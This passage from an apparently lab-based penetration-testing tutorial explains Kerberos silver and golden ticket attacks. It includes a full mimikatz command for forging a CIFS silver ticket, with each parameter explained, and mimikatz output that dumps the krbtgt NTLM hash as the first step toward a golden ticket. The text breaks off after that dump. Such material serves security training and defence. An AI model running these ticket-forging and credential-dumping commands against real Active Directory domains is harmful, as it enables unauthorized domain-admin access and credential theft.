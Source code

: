 ![2nd part Client <-> Service](https://gblobscdn.gitbook.com/assets%2F-MGT2pXneep03jo0FJjo%2F-MLleHggLGDNZw31DXUz%2F-MLmYiQ3MvFE4GNjUH2m%2F9%20-%20From%20User%20to%20Serivce.png?alt=media&token=c246217c-d3b4-454f-8505-4aaad3e678a5)

Before we launch the attack we need to target a specific **service** and grab its **password** and its **NTLM** hash. we can achieve this by targeting any service account and launch a kerberos attack on it to crack its password. So now let's assume we have all of these and we ready to create a silver ticket.

First, open mimkatz and run the following command:

`kerberos::golden /user:administrator /domain:jnkfo.lab /sid:S-1-5-21-3178339118-3033626349-2532976716 /target:win10.jnkfo.lab /rc4:1ad9c160bd7ab9cb4b7c890c96862305 /service:cifs`

‌
-   user: Username, this can be any user, even invalid one will work.

-   domain: The domain name

-   sid: Domain sid, can be obtained via many methods, whoami /user is one.

-   target: Target machine

-   rc4: NTLM hash of the target service

-   Service: The service name, cifs as am accessing file sharing service

![Silver Ticket](https://gblobscdn.gitbook.com/assets%2F-MGT2pXneep03jo0FJjo%2F-MM5L2otAhLKk5Al_W5g%2F-MM5x0uBcljzME7V1x8m%2FSilver%20tICKET%202.png?alt=media&token=eda2081b-8bb2-4079-97a4-a32a415c1e70)

Now, we have got a Silver ticket to access file share on the win10.jnkfo.lab machine.

![](https://gblobscdn.gitbook.com/assets%2F-MGT2pXneep03jo0FJjo%2F-MM5L2otAhLKk5Al_W5g%2F-MM5xgD5XBm-ZuG6UWU_%2FSilver%20tICKET%203.png?alt=media&token=b7eb8bf2-b14c-4184-a3a3-884fcea8e644)


### Golden Tickets

Golden ticket attack takes part in (TGS-REQ). The TGT is encrypted using the KRBTGT account (TGS Secret Key), KDC will decrypt this and issue the service ticket with the same group memberships and validation info found in the TGT. So, if you have the KRBTGT hash, you can forge your own TGT which includes the PAC data with any group membership you want! including domain admins! sending this to the KDC will result in a service ticket with a domain admin group membership inside!

![TGS REQ](https://gblobscdn.gitbook.com/assets%2F-MGT2pXneep03jo0FJjo%2F-MLleHggLGDNZw31DXUz%2F-MLmBfOvr7TahzDKtIgq%2F5%20-%20USER%20to%20TGT.png?alt=media&token=620beda8-59f3-4bb0-9253-9a8172937455)

To grab the needed information we will use the following command


```c
mimikatz # lsadump::lsa /inject /name:krbtgt
Domain : CONTROLLER / S-1-5-21-849420856-2351964222-986696166
RID :  000001f6  (502)
User : krbtgt
  * Primary
 NTLM :  5508500012cc005cf7082a9a89ebdfdf
 LM :
 Hash NTLM:  5508500012cc005cf7082a9a89ebdfdf
 ntlm-  0:  5508500012cc005cf7082a9a89ebdfdf
 lm -  0:  372f405db05d3cafd27f8e6a4a097b2c
```
